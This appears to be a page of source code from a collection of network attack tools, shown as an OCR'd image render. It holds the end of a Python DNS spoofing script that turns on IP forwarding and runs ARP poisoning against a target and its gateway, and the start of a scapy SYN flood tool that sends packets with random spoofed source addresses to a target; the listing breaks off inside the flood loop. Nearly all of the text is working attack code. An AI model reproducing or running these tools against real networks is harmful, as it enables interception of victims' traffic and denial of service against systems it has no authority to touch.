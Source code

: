 ```python
    """
    Sniff packets and process DNS queries
    """
    print(f"[*] Starting packet sniffer with filter: {filter_exp}")
    sniff(filter=filter_exp, prn=dns_spoof)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: ./dns_spoof.py TARGET_IP GATEWAY_IP")
        sys.exit(1)
    
    target_ip = sys.argv[1]
    gateway_ip = sys.argv[2]
    
    # Enable IP forwarding
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
    
    # Start ARP poisoning in a separate thread
    arp_thread = threading.Thread(target=arp_poison, args=(target_ip, gateway_ip))
    arp_thread.daemon = True
    arp_thread.start()
    
    # Start packet sniffer
    try:
        filter_exp = f"udp port 53 and src {target_ip}"
        packet_sniffer(filter_exp)
    except KeyboardInterrupt:
        print("[*] Stopping DNS spoofing...")
        # Disable IP forwarding
        os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
```

#### 3. SYN Flood Attack Tool

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
import random
import threading
import time

def syn_flood(target_ip, target_port, number_of_packets=1000):
    """
    Send SYN packets to target
    """
    print(f"[*] Starting SYN flood against {target_ip}:{target_port}")
    total_sent = 0
    
    for _ in range(number_of_packets):
        # Generate random source IP and port
        source_ip = f"{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}"
        source_port = random.randint(1024, 65535)
        
        # Create the SYN packet
        ip_layer = IP(src=source_ip, dst=target_ip)
        tcp_layer = TCP(sport=source_port, dport=target_port, flags="S", seq=random.randint(0, 2**32-1))
        
        # Send the packet
        send(ip_layer/tcp_layer, verbose=0)
        total_sent += 1
        
```
